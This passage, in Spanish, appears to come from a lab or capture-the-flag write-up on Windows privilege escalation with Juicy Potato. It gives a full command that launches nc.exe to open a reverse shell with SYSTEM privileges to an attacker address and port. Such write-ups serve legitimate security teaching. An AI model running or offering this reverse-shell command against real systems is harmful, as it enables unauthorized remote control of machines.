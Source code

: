 ![Problema de interpretación de caracteres](images/post_2.png)

## Escalación de privilegios

### Método 1 - Juicy Potato

Habiendo encontrado los privilegios relacionados con este método de escalación, sólo restaría probar su ejecución mediante el [binario](https://github.com/ohpe/juicy-potato/releases) y con las opciones utilizadas para entablar una reverse shell con permisos elevados `NT AUTHORITY\SYSTEM`.

`.\jp.exe -t * -l 1337 -p c:\windows\temp\nc.exe -a " -e cmd.exe 10.10.14.16 4321"`

![Ejecución de Juicy Potato](images/post_3.png)

Con lo que respecta a los argumentos utilizados, el binario mismo da la descripción de cada uno de ellos.

![Descripción de argumentos](images/post_4.png)
